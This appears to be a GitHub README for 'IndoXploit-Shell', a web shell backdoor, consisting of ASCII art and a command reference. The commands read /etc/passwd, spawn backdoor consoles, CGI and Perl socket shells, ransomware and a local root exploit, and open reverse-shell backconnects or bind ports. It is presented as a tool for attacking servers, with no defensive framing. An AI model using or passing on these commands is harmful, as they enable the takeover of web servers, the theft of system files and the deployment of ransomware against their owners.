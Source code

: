 ## IndoXploit-Shell 
<pre>

This  
  Nyan 
    Maru

                       _____|\
                  _.--| LOL |:
                 <____|.----||
                        .---''---,
                         ;..__..'    _...
                       ,'/  ;|/..--''    \
                     ,'_/.-/':            :
                _..-'''/  /  |  \    \   _|/|
               \      /-./_ \;   \    \,;'   \
               ,\    / \:  `:\    \   //    `:`.
             ,'  \  /-._;   | :    : ::    ,.   .
           ,'     ::   /`-._| |    | || ' :  `.`.)
        _,'       |;._:: |  | |    | `|   :    `'
      ,'   `.     /   |`-:_ ; |    |  |  : \
      `--.   )   /|-._:    :          |   \ \
         /  /   :_|   ;`-._;   __..--';    : :
        /  (    ;|;-./_  _/.-:'o |   /     ' |
       /  , \._/_/_./--''/_|:|___|_,'        |
      :  /   `'-'--'----'---------'          |
      | :     O ._O   O_. O ._O   O_.      ; ;
      : `.      //    //    //    //     ,' /
    ~~~`.______//____//____//____//_______,'~
              //    //~   //    //
       ~~   _//   _//   _// ~ _//     ~
     ~     / /   / /   / /   / /  ~      ~~
          ~~~   ~~~   ~~~   ~~~[ github.com/Flux10n ]

</pre>
                                           


## Command

- <b><i>Read File</i></b>
```
rf [filenane]
rf /etc/passwd
```

- <b><i>Spawn File</i></b>
```
spawn webconsole (execute command backdoor)
spawn cgitelnet1 (cgitelnet shell 1)
spawn cgitelnet2 (cgitelnet shell 2)
spawn cgipy (cgi python)
spawn soc (socket perl)
spawn rans (ransomware)
spawn adminer (adminer databese)
spawn LRE (local root exploit)
spawn fm (file manager)
spawn acs (auto create shell)
spawn phpinfo (file system info)
spawn func (getewe)
```

- <b><i>Jumping</i></b>
```
Usage: jumping
```

- <b><i>Spawn File</i></b>
```
Usage: idxconfig
```

- <b><i>Spawn File</i></b>
```
Usage: symlink
```

- <b><i>Krdp</i></b>
```
Usage: krdp
```

- <b><i>Logout From Shell</i></b>
```
Usage: logout
```

- <b><i>Kill Backdoor</i></b>
```
Usage: killme
```

- <b><i>Reverse Shell [Backconnect]</i></b>
```
usage: rvr bc [IP] [PORT] [TYPE]
```
Example:
```
rvr bc 127.0.0.1 1337 bash
rvr bc 127.0.0.1 1337 perl
```

- <b><i>Bind Port</i></b>
```
usage: rvr bp [PORT] [TYPE]
```
Example:
```
rvr bp 1337 perl
```

## Command prompt (CMD)
[https://github.com/flux10n/command-injection](https://github.com/flux10n/command-injection)
